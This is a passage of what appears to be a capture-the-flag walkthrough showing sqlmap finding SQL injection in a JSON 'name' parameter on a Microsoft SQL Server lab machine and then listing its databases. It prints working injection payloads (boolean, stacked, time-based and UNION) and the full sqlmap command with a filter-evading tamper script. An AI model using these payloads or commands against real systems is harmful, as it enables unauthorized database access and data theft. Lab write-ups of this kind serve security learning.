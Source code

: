    [18:08:31] [INFO] parsing HTTP request from 'colleagues.request'
    [18:08:31] [INFO] loading tamper module 'charunicodeescape'
    JSON data found in POST body. Do you want to process it? [Y/n/q] Y
    ...[snip]...
    [18:31:01] [INFO] (custom) POST parameter 'JSON name' is 'Generic UNION query (NULL) - 1 to 20 columns' injectable
    [18:31:01] [WARNING] in OR boolean-based injection cases, please consider usage of switch '--drop-set-cookie' if you experience any problems during data retrieval
    (custom) POST parameter 'JSON name' is vulnerable. Do you want to keep testing the others (if any)? [y/N] N
    sqlmap identified the following injection point(s) with a total of 258 HTTP(s) requests:
    ---                                                        
    Parameter: JSON name ((custom) POST)                       
        Type: boolean-based blind                              
        Title: OR boolean-based blind - WHERE or HAVING clause (NOT)
        Payload: {"name":"test' OR NOT 3782=3782-- bJBd"}
    
        Type: stacked queries                                  
        Title: Microsoft SQL Server/Sybase stacked queries (comment)
        Payload: {"name":"test';WAITFOR DELAY '0:0:5'--"}
    
        Type: time-based blind                                 
        Title: Microsoft SQL Server/Sybase time-based blind (IF)                                                          
        Payload: {"name":"test' WAITFOR DELAY '0:0:5'-- FvDZ"}
    
        Type: UNION query
        Title: Generic UNION query (NULL) - 5 columns
        Payload: {"name":"test' UNION ALL SELECT 58,58,58,CHAR(113)+CHAR(112)+CHAR(122)+CHAR(107)+CHAR(113)+CHAR(68)+CHAR(105)+CHAR(69)+CHAR(119)+CHAR(71)+CHAR(98)+CHAR(76)+CHAR(83)+CHAR(102)+CHAR(68)+CHAR(114)+CHAR(73)+CHAR(109)+CHAR(73)+CH
    AR(98)+CHAR(101)+CHAR(116)+CHAR(99)+CHAR(70)+CHAR(80)+CHAR(103)+CHAR(101)+CHAR(86)+CHAR(113)+CHAR(73)+CHAR(82)+CHAR(103)+CHAR(90)+CHAR(115)+CHAR(114)+CHAR(76)+CHAR(73)+CHAR(77)+CHAR(105)+CHAR(103)+CHAR(73)+CHAR(71)+CHAR(67)+CHAR(83)+CHAR
    (111)+CHAR(113)+CHAR(98)+CHAR(120)+CHAR(98)+CHAR(113),58-- gxQm"}
    ---
    [18:31:01] [WARNING] changes made by tampering scripts are not included in shown payload content(s)
    [18:31:02] [INFO] testing Microsoft SQL Server
    [18:31:07] [INFO] confirming Microsoft SQL Server
    [18:31:22] [INFO] the back-end DBMS is Microsoft SQL Server
    back-end DBMS: Microsoft SQL Server 2017                   
    [18:31:22] [INFO] fetched data logged to text files under '/root/.sqlmap/output/10.10.10.179' 
    

With that success, now I can run with `--dbs` to list the databases. There are
five:

    
    
    root@kali# sqlmap -r colleagues.request --tamper=charunicodeescape --delay 5 --level 5 --risk 3 --batch --proxy http://127.0.0.1:8080 --dbs
    ...[snip]...
    [21:19:29] [INFO] fetching database names
    available databases [5]:
    [*] Hub_DB
    [*] master
    [*] model
    [*] msdb
    [*] tempdb
    
